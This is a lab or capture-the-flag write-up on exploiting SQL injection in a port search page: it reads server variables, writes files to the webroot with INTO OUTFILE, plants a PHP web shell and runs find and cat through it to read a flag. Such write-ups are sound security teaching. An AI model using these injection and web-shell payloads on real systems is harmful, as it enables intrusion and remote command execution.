





## Exercises

### Question 1 — Find the flag by using a webshell.

The target was `154.57.164.74:34208`, the port search page. The hint said the flag was one directory away from the webroot.

#### Landing on the Page



The results table was empty before any search.

#### Checking secure_file_priv

Before attempting any file writes, the `secure_file_priv` value was checked to confirm writes were permitted:

```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM INFORMATION_SCHEMA.GLOBAL_VARIABLES WHERE variable_name = 'secure_file_priv' -- -
```

**Breakdown:**

- `'` closes the quote the application wraps around the search parameter, ending it early
- `UNION SELECT 1, variable_name, variable_value, 4 FROM INFORMATION_SCHEMA.GLOBAL_VARIABLES` unions the original query with a four-column `SELECT`, reading `variable_name` into the second column and `variable_value` into the third, with junk numbers filling the remaining two columns
- `WHERE variable_name = 'secure_file_priv'` restricts the result to that one variable
- `-- -` comments out the rest of the original query


The value returned empty, confirming that files could be read from and written to anywhere on the system.

#### Confirming the Current User

```sql
' UNION SELECT 1, 2, user(), 4 -- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT 1, 2, user(), 4` places `user()` in the third column this time instead of the second, to confirm the function works regardless of column position
- `-- -` comments out the rest of the original query

This confirmed the user was `root`.

#### Confirming Write Access with proof.txt

Before writing a web shell, write access to the webroot was verified with a test file:

```sql
' UNION SELECT 1, "File written successfully", 3, 4 INTO OUTFILE '/var/www/html/proof.txt' -- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT 1, "File written successfully", 3, 4` unions the original query with a four-column `SELECT`, placing the test string in the second column and junk numbers in the other three
- `INTO OUTFILE '/var/www/html/proof.txt'` writes the result to a file in the Apache webroot
- `-- -` comments out the rest of the original query

The results table returned empty, indicating the query succeeded, since the output was redirected to the file rather than back to the page.

Browsing to `http://154.57.164.74:34208/proof.txt` confirmed the file existed:



The full `UNION` query output was written to the file, with all port rows from the original query and the injected string appearing at the bottom alongside the junk column values. 

#### First Shell Attempt: shell.php

The initial web shell payload used junk numbers in the other three columns:

```sql
' UNION SELECT 1, '<?php system($_REQUEST[0]); ?>', 3, 4 INTO OUTFILE '/var/www/html/shell.php' -- -
```

Browsing to `shell.php` and then `shell2.php` both returned a 500 error.



The 500 error occurred because the file on disk contained the junk numbers `1`, `3`, and `4` in the same tab-separated row as the PHP code, producing malformed output that caused PHP to fail.

#### Second Shell Attempt: shell3.php and shell4.php

The fix was to replace the junk numbers with empty strings, so the surrounding output would be blank rather than raw numbers:

```sql
' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell4.php' -- -
```

**Breakdown:**

- `'` closes the quote and ends the search parameter early
- `UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", ""` places the PHP web shell code in the second column, and empty strings in the other three to avoid producing junk output around the PHP tags
- `INTO OUTFILE '/var/www/html/shell4.php'` writes the result to a new file named `shell4.php` in the webroot, since `INTO OUTFILE` refuses to overwrite a file that already exists
- `-- -` comments out the rest of the original query

Browsing to `shell4.php` loaded without a 500 error:



The port data from the original query appeared as plain text, since it was written outside the PHP tags and rendered as HTML output. The PHP code itself executed without error. This confirmed the shell was live.

#### Wrong Parameter Direction

The first execution attempt used `?id=0`, which produced no output. The correct direction was `?0=id`: the parameter **name** is `0`, matching `$_REQUEST[0]` in the shell code, and the parameter **value** is the command to run. `?id=0` passes the value `0` to a parameter named `id`, which the shell code never reads.

#### Finding the Flag

With the shell confirmed working, the flag file was located using `find`. The hint said it was one directory away, placing it at `/var/www/` given the webroot is `/var/www/html/`.

```
http://154.57.164.74:34208/shell4.php?0=find%20%2F%20-type%20f%20-name%20flag.txt%20%262%3E%2Fdev%2Fnull
```

URL-decoded command: `find / -type f -name flag.txt 2>/dev/null`

**Breakdown:**

- `find /` searches the entire filesystem, starting from the root
- `-type f` restricts the results to files, not directories
- `-name flag.txt` matches files named exactly `flag.txt`
- `2>/dev/null` redirects error output (such as permission-denied messages) to `/dev/null`, so only successful results are shown



The flag was confirmed at `/var/www/flag.txt`, one directory up from the webroot as the hint suggested.

#### Reading the Flag

```
http://154.57.164.74:34208/shell4.php?0=cat%20%2Fvar%2Fwww%2Fflag.txt
```

URL-decoded command: `cat /var/www/flag.txt`

**Breakdown:**

- `cat` prints the contents of a file to the output
- `/var/www/flag.txt` is the path found in the previous step


**Answer:** `—REDACTED—`